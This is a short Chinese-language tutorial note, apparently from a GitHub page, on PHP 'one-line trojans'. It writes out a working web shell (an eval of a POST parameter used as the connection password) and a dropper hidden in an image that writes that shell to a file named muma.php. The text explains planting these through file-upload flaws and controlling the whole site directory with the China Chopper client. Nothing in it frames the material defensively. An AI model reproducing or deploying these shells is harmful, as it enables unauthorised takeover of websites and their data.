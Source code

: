 ### 最简单的一句话木马

>  <?php @eval($_POST['attack']) ?>

​	【基本原理】利用文件上传漏洞，往目标网站中上传一句话木马，然后你就可以在本地通过中国菜刀chopper.exe即可获	 取和控制整个网站目录。**@**表示后面即使执行错误，也不报错。**eval（）**函数表示括号内的语句字符串什么的全都当做	 代码执行。$_POST['attack']表示从页面中获得attack这个参数值,attack就是连接密码

### 较高级图片木马

> <?php fputs(fopen('muma.php','w'),'<?php @eval($_POST[hack]);?>'); ?>
>
> fputs() 函数写入文件（可安全用于二进制文件）
>
> fputs() 函数是 [fwrite()](https://www.w3school.com.cn/php/func_filesystem_fwrite.asp) 函数的别名。
>
> fopen() 函数打开文件或者 URL
>
> 在图片中添加Php代码创建一个muma.php文件以w的形式打开，写的内容就是
>
> <?php @eval($_POST[hack]);?>这句一句话木马